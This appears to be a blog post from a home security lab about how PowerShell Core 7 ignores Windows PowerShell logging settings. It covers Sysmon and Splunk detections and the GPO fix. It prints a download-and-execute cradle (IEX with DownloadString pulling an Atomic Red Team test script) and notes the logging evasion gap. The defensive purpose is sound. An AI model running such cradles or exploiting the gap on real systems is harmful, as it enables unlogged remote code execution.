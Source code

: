 ```yaml
---
title: "PowerShell Core Logging Observations" 
layout: post
---
```


In my [Active Directory lab]({% post_url 2020-04-11-active-directory-lab%}), I've got PowerShell Module Logging and Script Block Logging enabled. I used the [settings recommended by the Australian Signals Directorate][asd-guidance] when configuring the GPO. So I was surprised to find that after executing a download crade via PowerShell 7 there was nothing in the PowerShell logs to detect this activity, while running the exact same command in PowerShell 5.1 resulted in the command being logged, EventID 4104.

It turns out that PowerShell Core does not inherit the logging settings of built-in PowerShell. This could represent a possible gap in logging that an adversary can take advantage of by installing PowerShell Core and executing commands through it, rather than built-in PowerShell or cmd.exe.

### Download cradle I ran on both PowerShell Core and built-in PowerShell
```powershell
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1')
```

## What is PowerShell Core?
* Open-source, cross-platform version of PowerShell built on top of .NET Core.
* Not currently shipped with Windows, [must be installed][core-installinstructions].
* Does not replace built-in PowerShell, they run side-by-side.
* Per the [PowerShell Core 7 Dev Blog][ps-devblog], "we consider PowerShell 7 and beyond to be the one, true PowerShell going forward."

## PowerShell Core Installation Detections
During the installation of PowerShell Core 7, there were a few events logged that looked like good candidates to use for detection purposes:
* Two events for Sysmon, EventID 11:
    * TargetFilename: 'C:\Program Files\PowerShell\7\pwsh.dll'
    * TargetFilename: 'C:\Program Files\PowerShell\7\pwsh.exe'
* Command line entry in both WinEvent, EventID 4688,  and Sysmon, EventID 1, log:
    * CommandLine: '"C:\Program Files\PowerShell\7\pwsh.exe" -NoProfile -ExecutionPolicy Bypass -File "C:\Program Files\PowerShell\7\RegisterManifest.ps1"' 

## Enable PowerShell Core Logging to Splunk
1. Add the following stanza to `$SPLUNK_HOME/etc/deployment-apps/Splunk_TA_windows/local/inputs.conf` on the deployment server:
```
[WinEventLog://PowerShellCore/Operational]
disabled = 0
renderXml = 0
```
2. Reload deployment server
3. Restart SplunkForwarder service on applicable clients

## Default PowerShell Core WinEvent Logs
These are the default logs that were ingested into Splunk prior to configuring a GPO for PowerShell Core specific logging:

<p align="center">
  <img src="/assets/posts/2020-04-12-powershell-core-logging/core_log_pre_gpo.png">
</p>

## [Configure PowerShell Core Logging via GPO][gpo-guidance]
1. Obtain `PowerShellCoreExecutionPolicy.adml` and `PowerShellCoreExecutionPolicy.adml` by either:
    * Installing PowerShell 7 via [msi][core-release] on a host then retrieving the files from `C:\Program Files\PowerShell\7\`
        * or
    * Downloading the [zip][core-release] file and retrieving the files from the archive.
1. Add the files to the [AD Central Store][ad-centralstore]:
2. In Group Policy Management Console: Computer Configuration -> Administrative Templates -> Powershell Core
    * Turn on Module Logging
    * Turn on PowerShell Script Block Logging

## Post-GPO PowerShell Core Logs
These are the logs that were ingested into Splunk after configuring GPO for PowerShell Core logging (not all, some filtered out for brevity):

<p align="center">
  <img src="/assets/posts/2020-04-12-powershell-core-logging/core_log_post_gpo.png">
</p>

## Conclusion
As PowerShell is used as one of the top Mitre ATT&CK techniques, [red canary 2020 Threat Detection Report][redcanary-report] and [FireEye M-Trends 2020 pdf page 20][fireeye-mtrends], I believe it would be prudent to configure detections for PowerShell Core being installed and leveraged - even if you're not currently using PowerShell Core in your environment - so that when it shows up, you will know.

[asd-guidance]:		        https://www.cyber.gov.au/publications/windows-event-logging-and-forwarding
[core-installinstructions]: https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-windows?view=powershell-7
[ps-devblog]:               https://devblogs.microsoft.com/powershell/announcing-PowerShell-7-0/
[gpo-guidance]: 	        https://docs.microsoft.com/en-us/powershell/scripting/whats-new/migrating-from-windows-powershell-51-to-powershell-7?view=powershell-7#group-policy-supported
[ad-centralstore]:	        https://support.microsoft.com/en-us/help/3087759/how-to-create-and-manage-the-central-store-for-group-policy-administra
[core-release]:		        https://github.com/PowerShell/PowerShell/releases
[redcanary-report]:         https://redcanary.com/threat-detection-report/techniques/
[fireeye-mtrends]:          https://content.fireeye.com/m-trends/rpt-m-trends-2020